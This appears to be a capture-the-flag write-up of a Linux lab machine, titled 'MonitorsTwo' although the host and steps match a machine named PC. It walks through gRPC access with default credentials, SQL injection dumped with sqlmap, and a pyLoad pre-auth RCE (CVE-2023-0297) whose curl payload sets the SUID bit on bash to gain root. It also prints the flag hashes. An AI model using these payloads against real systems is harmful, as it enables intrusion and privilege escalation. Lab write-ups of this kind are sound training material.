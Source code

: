 # MonitorsTwo
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -p- -sC -sV --min-rate 5000 10.10.11.214 -oN nmappc -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-12 11:16 CEST
Nmap scan report for 10.10.11.214
Host is up (0.16s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=8/12%Time=64D74E07%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.92 seconds
```

## 2. TCP - 50051
There is an active service on port 50051 ! 

<p align="center">
  <img src="Images/port50051.png" />
</p>

Googling I found that port 50051 is the default port for the [gRPC channel](https://xrpl.org/configure-grpc.html).

Upon further digging, we find an [exploit](https://github.com/fullstorydev/grpcui) that allows us to interact with gRPC servers via a browser.

After installing the program we execute the following command:

```bash
└─$ grpcui --plaintext 10.10.11.214:50051 
gRPC Web UI available at http://127.0.0.1:43299/
```


Visiting the Web UI page we can see the presence of a login that we try to make using the default `admin:admin` credentials.

<p align="center">
  <img src="Images/login.png" />
</p>

The site's response is an identification token of the user used.

<p align="center">
  <img src="Images/token.png" />
</p>

So we can intercept the *getInfo* request, inserting the retrieved token.

<p align="center">
  <img src="Images/intercept.png" />
</p>

After some testing I found that the id parameter is vulnerable to SQLInjection.

<p align="center">
  <img src="Images/sqlinj.png" />
</p>

We save the request and use it to run [sqlmap](https://sqlmap.org/).

<p align="center">
  <img src="Images/sql res.png" />
</p>

We use the credentials found to access via ssh and then we get the user flag.

```bash
└─$ ssh sau@10.10.11.214 
The authenticity of host '10.10.11.214 (10.10.11.214)' can't be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.10.11.214' (ED25519) to the list of known hosts.
sau@10.10.11.214's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ ld
ld: no input files
sau@pc:~$ ls
user.txt
sau@pc:~$ cat user.txt 
366d3ff20136b0b38ee4e21cd4e958a0
```

## 3/4. User to ROOT
By executing [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we find that there is an open service on port 8000.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
```

Running the `wget` command we get the *index.html* page.

```bash
sau@pc:/dev/shm$ wget http://127.0.0.1:8000
--2023-08-12 09:54:22--  http://127.0.0.1:8000/
Connecting to 127.0.0.1:8000... connected.
HTTP request sent, awaiting response... 302 FOUND
Location: /login?next=http%3A%2F%2F127.0.0.1%3A8000%2F [following]
--2023-08-12 09:54:22--  http://127.0.0.1:8000/login?next=http%3A%2F%2F127.0.0.1%3A8000%2F
Reusing existing connection to 127.0.0.1:8000.
HTTP request sent, awaiting response... 200 OK
Length: 13500 (13K) [text/html]
Saving to: ‘index.html’

index.html                   100%[==============================================>]  13.18K  --.-KB/s    in 0s      

2023-08-12 09:54:22 (181 MB/s) - ‘index.html’ saved [13500/13500]
```

Analyzing the page, it turns out that it refers to a login service related to `pyLoad`.

```html
sau@pc:/dev/shm$ cat index.html 
<!DOCTYPE html>
<html lang="en">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">

    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/Bootstrap/css/bootstrap.min.css">
    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/jQuery/jQuery%20UI/jquery-ui.min.css"/>
    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/mdtoast/css/mdtoast.min.css"/>
    <link rel="stylesheet" type="text/css" href="/_themes/modern/css/base.css" />

    <link rel="icon" href="/_themes/modern/img/favicon.ico"/>

<style type="text/css">
.ui-icon,
.ui-widget-content .ui-icon {
  background-image: url("/_themes/modern/img/ui-icons_444444_256x240.png");
}

#goto_top.affix-top {
  position: absolute;
  bottom: -82px;
  left: 10px;
}

#goto_top.affix {
  position: fixed;
  bottom: 18px;
  left: 10px;
}
</style>

<title>Login - pyLoad </title>


<link rel="stylesheet" type="text/css" href="/_themes/modern/css/login.css" />


</head>

<body>
```

Googling, you can find an [exploit](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) that allows us to have an RCE by executing the following command:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```


We execute the command to set the SUID bit, then through the command `bash -p` we become root and get the root flag.

```bash
Could not decrypt keysau@pc:/dev/shm$ curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sat, 12 Aug 2023 09:59:29 GMT
Server: Cheroot/8.6.0

Could not decrypt keysau@pc:/dev/shm$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
eacb3760878ab00311eb506872e260f9
```